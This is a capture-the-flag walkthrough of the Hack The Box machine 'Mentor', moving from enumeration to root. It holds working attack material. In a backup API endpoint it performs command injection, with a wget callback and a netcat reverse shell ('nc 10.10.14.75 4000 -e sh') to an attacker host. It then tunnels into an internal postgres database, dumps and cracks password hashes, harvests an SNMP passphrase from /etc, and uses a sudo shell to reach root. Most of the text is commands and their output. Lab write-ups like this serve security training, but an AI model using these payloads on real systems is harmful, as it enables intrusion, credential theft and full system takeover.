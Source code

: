 ```yaml
---
title: Mentor 
date: 2022-12-11 12:00:00
categories: [HTB,CTF]
tags: [htb]
---
```


# Enumeration

## Rustscan

```bash
mkdir rust; sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.129.84.190 -- -sV -sC -oA ./rust/{{ip}}
```

```bash
Open 10.129.84.190:22
Open 10.129.84.190:80
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://mentorquotes.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Subdomains

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -u http://mentorquotes.htb -H "Host: FUZZ.mentorquotes.htb" -o subs.json -mc all -fw 18
```

```bash
api                     [Status: 404, Size: 22, Words: 2, Lines: 1, Duration: 98ms]
```

## Dirsearch

```bash
dirsearch -u http://api.mentorquotes.htb/
```

```bash
[00:53:07] 307 -    0B  - /admin  ->  http://api.mentorquotes.htb/admin/    
[00:53:07] 422 -  186B  - /admin/?/login                                    
[00:53:07] 422 -  186B  - /admin/                                           
[00:53:07] 307 -    0B  - /admin/backup/  ->  http://api.mentorquotes.htb/admin/backup
[00:53:17] 405 -   31B  - /auth/login                                       
[00:53:24] 200 -  969B  - /docs                                             
[00:53:24] 307 -    0B  - /docs/  ->  http://api.mentorquotes.htb/docs      
[00:53:49] 403 -  285B  - /server-status                                    
[00:53:49] 403 -  285B  - /server-status/                                   
[00:53:56] 307 -    0B  - /users  ->  http://api.mentorquotes.htb/users/    
[00:53:56] 307 -    0B  - /users/admin  ->  http://api.mentorquotes.htb/users/admin/
[00:53:56] 422 -  186B  - /users/
[00:53:56] 307 -    0B  - /users/login  ->  http://api.mentorquotes.htb/users/login/
```

# Foothold

## Create a new user

If you check [http://api.mentorquotes.htb/docs/ ](http://api.mentorquotes.htb/docs/ ) you'll see that the authors user name seems to be **james** and his mailaddress is james@mentorquotes.htb  
We will use **james** as username with a different address to get access to any admin endpoint.

```bash
curl -X 'POST' \
  'http://api.mentorquotes.htb/auth/signup' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "james1@mentorquotes.htb",
  "username": "james",
  "password": "password"
}'
```

## Sign In

```bash
curl -X 'POST' \
  'http://api.mentorquotes.htb/auth/login' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "james1@mentorquotes.htb",
  "username": "james",
  "password": "password"
}' > token
```

Our Access Token

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48
```

## Admin Endpoint

We discovered [http://api.mentorquotes.htb/admin/backup](http://api.mentorquotes.htb/admin/backup) using dirsearch before.  

### Missing body
```bash
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48'                     
```

```json
{"detail":[{"loc":["body"],"msg":"field required","type":"value_error.missing"}]}
```

### Missing path
```bash
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48' -d '{ "body": "a" }'
```

```json
{"detail":[{"loc":["body","path"],"msg":"field required","type":"value_error.missing"}]}                                                                                                                                                                                                                                            
```

### Finally

```bash
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48' -d '{ "body": "a", "path": "b;id" }'
```

```json
{"INFO":"Done!"} 
```

### Command Injection

Poking around didn't show any results that are interesting. Assuming that this endpoints is being used to get or create backups we will check for Command Injections.

```bash
# Setup python server to check for callbacks
python -m http.server 80
```

```bash
# Try to trick the server into using wget to contact us
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48' -d '{ "body": "a", "path": ";wget 10.10.14.75" }'
```

We got a callback to our http.server 

## Shell

```bash
rlwrap -cAr nc -lvnp 4000
```

```bash
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48' -d '{ "body": "a", "path": "`nc 10.10.14.75 4000 -e sh`" }'
```

## Local Enum

```bash
ls -al
total 9044
drwxr-xr-x    1 root     root          4096 Dec 12 00:58 .
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 ..
-rw-r--r--    1 root     root          1024 Jun 12  2022 .Dockerfile.swp
-rw-r--r--    1 root     root           522 Nov  3 12:58 Dockerfile
drwxr-xr-x    1 root     root          4096 Dec 12 00:54 app
```

Within the app directory we'll find a file called db.py which will indicate that a postgres db is running on IP 172.22.0.1.

```python
# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
```

# Priv Esc

## Postgres
We will setup chisel for portfowarding/tunneling and check the database  

```bash
# Client
./chisel_lnx server -p 8001 --reverse
# Target
./chisel_lnx client 10.10.14.75:8001 R:1080:socks
```

We will find two interesting password hashes within the mentorquotes db. One can be cracked!

```bash
proxychains -q psql -h 172.22.0.1 -d mentorquotes_db -U postgres
psql (14.4 (Debian 14.4-1+b1), Server 13.7 (Debian 13.7-1.pgdg110+1))
Geben Sie »help« für Hilfe ein.

mentorquotes_db=# \d
             Liste der Relationen
 Schema |     Name      |   Typ   | Eigentümer 
--------+---------------+---------+------------
 public | cmd_exec      | Tabelle | postgres
 public | quotes        | Tabelle | postgres
 public | quotes_id_seq | Sequenz | postgres
 public | users         | Tabelle | postgres
 public | users_id_seq  | Sequenz | postgres
(5 Zeilen)

mentorquotes_db=# select * from users;
 id |          email          |  username   |             password             
----+-------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb  | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb    | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(4 Zeilen)
```

>53f22d0dfa10dce7e29cd31f4f953fd8 = 123meunomeeivani

## SSH Access

We can use **svc:123meunomeeivani** to access the main server.

## User: James

Since there was no obvious way for privilege escalation to root we started checking for basic things like passwords that has been set somewhere and could be accessed by anyone

```bash
grep -Hrni "pass" /etc
```

```bash
/etc/snmp/snmpd.conf:78:# createUser username (MD5|SHA|SHA-512|SHA-384|SHA-256|SHA-224) authpassphrase [DES|AES] [privpassphrase]
/etc/snmp/snmpd.conf:92:createUser bootstrap MD5 SuperSecurePassword123__ DES
```

Using the password **SuperSecurePassword123__** we are able to become **james**

# Root

```bash
james@mentor:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
```

```bash
sudo /bin/sh
```